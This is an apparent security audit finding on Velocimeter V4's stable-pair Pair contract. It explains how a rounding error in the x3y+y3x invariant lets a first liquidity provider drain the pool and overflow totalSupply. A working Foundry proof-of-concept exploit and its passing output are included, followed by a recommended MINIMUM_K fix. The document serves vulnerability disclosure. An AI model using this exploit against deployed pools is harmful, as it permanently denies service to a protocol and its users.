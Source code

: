 Polite Butter Gazelle

High

# First Liquidity Provider can DoS stable pair pools by exploiting rounding error

## Summary

The `Velocimeter` protocol was initially a `Velodrome V1` fork, which utilizes `x3y+y3x = k` AMM. This formula is useful for stablecoin swaps due to the reduced slippage and liquidity efficiency. However, there is a known issue with the `k invariant` calculation that this protocol uses, where the first LP can exploit a rounding issue such that `k = 0`, allowing excessive minting until the `totalSupply` overflows, causing permanent DoS of stable pair pools.

This was found in a recent [Spearbit audit](https://velodrome.finance/security#:~:text=The%20Spearbit%20audit%20completed%20on%2016th%20of%20June%2C%202023) of the `Velodrome` protocol. Although it [states](https://velodrome.finance/security#:~:text=The%20Spearbit%20audit%20completed%20on%2016th%20of%20June%2C%202023%20and%20the%20report%20was%20published%20on%2017th%20of%20July%2C%202023%20after%20it%20has%20been%20shared%20with%20Velodrome%20v1%20forks.) that these findings were shared with `Velodrome V1` forks, this issue still exists in `Velocimeter V4`.

## Vulnerability Detail

During swaps, the following `require` statement checks if the `invariant k` holds

[Pair.sol#L328-L329](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L328-L329)
```javascript
    // The curve, either x3y+y3x for stable pools, or x*y for volatile pools
    require(_k(_balance0, _balance1) >= _k(_reserve0, _reserve1), 'K'); // Pair: K
```

The function `_k` utilizes the `x3y+y3x` curve for stable pairs

[Pair.sol#L403-L413](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413)
```javascript
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
@>          uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
@>          return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```

We can observe an issue here with the calculation of `_a`. If `(_x * _y) < 1e18`, then the value of `_a` will round down to 0. `k = _a * _b / 1e18` will then be equal to 0.

This allows the first LP to carry out the following exploit:

1. Provide a small amount of liquidity to the pool, such that `x * y < 1e18`.
2. Perform the swap operation to drain the pool, which will pass the `require(_k(_balance0, _balance1) >= _k(_reserve0, _reserve1), 'K')` check since `k=0`.
3. Repeat the above steps enough times so that the `totalSupply` of LP tokens overflows.

After the above steps are executed, if anyone attempts to mint liquidity to the pool, it will revert due to overflow.

> <strong style = "margin-left: 4px">Note:</strong>
>
>Although the mint function is taken from `Uniswap V2`, which has `sqrt(a * b) > MINIMUM_LIQUIDITY` check, this does not protect the invariant formula for stable pair pools.

## Proof of Concept

<details>
<summary>Coded PoC</summary>
<br>

Add the following to `test/Pair.t.sol` and run `forge test --mt testDestroyPair -vv`

```javascript
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;

        if (address(DAI) < address(FRAX)) {
        amount0 = 0;
        amount1 = initialFraxAmount - 1;
        } else {
        amount1 = 0;
        amount0 = initialFraxAmount - 1;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);

        if (address(DAI) < address(FRAX)) {
        amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
        amount1 = 0;
        } else {
        amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
        amount0 = 0;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
    }
    function testDestroyPair() public {
        votingEscrowMerge();
        deployOwners();
        deployCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        
        vm.startPrank(owners[0], owners[0]);
        deployPairFactoryAndRouter();
        deployVoter();
        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
        vm.stopPrank();

        for(uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }

        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);
        vm.expectRevert();
        pair.mint(address(this)); // will revert due to overflow of totalSupply
    }
```
</details>

### Console Output

```text
Running 1 test for test/Pair.t.sol:PairTest
[PASS] testDestroyPair() (gas: 55811995)
Logs:
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 9999000
  total liq: 9999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 50000000000000
  total liq: 50000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 250000050000000000000
  total liq: 250000100000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 1250000500000050000000000000
  total liq: 1250000750000150000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 6250003750000750000050000000000000
  total liq: 6250005000001500000200000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 31250025000007500001000000050000000000000
  total liq: 31250031250012500002500000250000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 156250156250062500012500001250000050000000000000
  total liq: 156250187500093750025000003750000300000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 781250937500468750125000018750001500000050000000000000
  total liq: 781251093750656250218750043750005250000350000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 3906255468753281251093750218750026250001750000050000000000000
  total liq: 3906256250004375001750000437500070000007000000400000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x16B791C4D412bF964ccDAb775e72A4a094064C14 liquidity: 19531281250021875008750002187500350000035000002000000050000000000000
  total liq: 19531285156278125013125003937500787500105000009000000450000009999000
  DAI balance: 1
  FRAX balance: 2

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.66ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

Permanent DoS of stable pair pools.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L328-L329

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250

## Tool used

Manual Review

## Recommendation

`Velodrome Finance` [fixed this issue](https://github.com/velodrome-finance/contracts/commit/59f9c135ccf7685af81f021918c879b21c2c5f04) by introducing a `MINIMUM_K = 10**10` that stable pair pool deposits must adhere to, and ensuring that stable pair deposits must be equal. Consider making the same changes:

```diff
contract Pair is IPair {

    string public name;
    string public symbol;
    uint8 public constant decimals = 18;

    // Used to denote stable or volatile pair, not immutable since construction happens in the initialize method for CREATE2 deterministic addresses
    bool public immutable stable;

    uint public totalSupply = 0;

    mapping(address => mapping (address => uint)) public allowance;
    mapping(address => uint) public balanceOf;

    bytes32 internal DOMAIN_SEPARATOR;
    // keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");
    bytes32 internal constant PERMIT_TYPEHASH = 0x6e71edae12b1b97f4d1f60370fef10105fa2faae0126114a169c64845d6126c9;
    mapping(address => uint) public nonces;

    uint internal constant MINIMUM_LIQUIDITY = 10**3;
+   uint256 internal constant MINIMUM_K = 10**10;

    address public immutable token0;
    address public immutable token1;
    address immutable factory;
    address public externalBribe;
    address public voter;
    bool public hasGauge;
```

```diff
    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
+           if (stable) {
+           require((_amount0 * 1e18) / decimals0 == (_amount1 * 1e18) / decimals1, "Pair: stable deposits must be equal");
+           require(_k(_amount0, _amount1) > MINIMUM_K, "Pair: stable deposits must be above minimum k");
+           }
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
        require(liquidity > 0, 'ILM'); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
```